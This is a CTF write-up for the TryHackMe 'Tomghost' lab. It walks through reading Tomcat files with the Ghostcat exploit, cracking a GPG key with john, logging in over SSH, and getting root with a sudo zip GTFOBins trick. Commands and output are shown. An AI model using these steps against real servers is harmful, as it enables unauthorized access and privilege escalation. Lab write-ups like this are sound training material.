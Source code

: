 +++
title = "THM | Thomghost"
+++

# THM Thomghost writeup

## 8009 : tomcat

use exploit `48143.py` from [exploit db](https://exploit-db.com) and get :

```xml
Getting resource at ajp13://10.10.228.43:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	   skyfuck:passwd
  </description>

</web-app>
```

## 22 : ssh

login using creds `ssh skyfuck@$IP` then it's the `privesc` parts :

### privesc:

find two files : `credential.gpg` and `tryhackme.asc` then use john for decrypt the password of the gpg key :

```bash
gpg2john tryhackme.asc > key.hash
john -wordlist=/usr/share/wordlists/rockyou.txt key.hash
```

the use gpg to decrypt the file `credential.gpg` :

```
┌──(ismael㉿kali)-[~/Documents/CTF/THM/tomghost]
└─$ gpg --import private.key       
gpg: clef 8F3DA3DEC6707170 : « tryhackme <stuxnet@tryhackme.com> » n'est pas modifiée
gpg: clef 8F3DA3DEC6707170 : clef secrète importée
gpg: clef 8F3DA3DEC6707170 : « tryhackme <stuxnet@tryhackme.com> » n'est pas modifiée
gpg:       Quantité totale traitée : 2
gpg:                 non modifiées : 2
gpg:           clefs secrètes lues : 1
gpg:      clefs secrètes importées : 1
                                                                                                                                                                        
┌──(ismael㉿kali)-[~/Documents/CTF/THM/tomghost]
└─$ gpg --decrypt credential.pgp
gpg: Attention : l'algorithme de chiffrement CAST5 est introuvable
            dans les préférences du destinataire
gpg: chiffré avec une clef ELG de 1024 bits, identifiant 61E104A66184FBCC, créée le 2020-03-11
      « tryhackme <stuxnet@tryhackme.com> »
merlin:<passwd>
```

and login to ssh:

```
┌──(ismael㉿kali)-[~/Documents/CTF/THM/tomghost]
└─$ ssh merlin@10.10.126.249
merlin@10.10.126.249's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Sat Aug  6 06:52:00 2022 from 10.9.2.76
merlin@ubuntu:~$ cat flag.txt
<flag>
```

so now it's privesc time !

```
merlin@ubuntu:~$ id
uid=1000(merlin) gid=1000(merlin) groups=1000(merlin),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
go to [GTFOBins](https://gtfobins.github.io/gtfobins/) and search zip : [zip#sudo](https://gtfobins.github.io/gtfobins/zip/#sudo)
```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

and get the second flag:
```
# cd /root
# ls
root.txt  ufw
# cat root.txt
<flag>
```
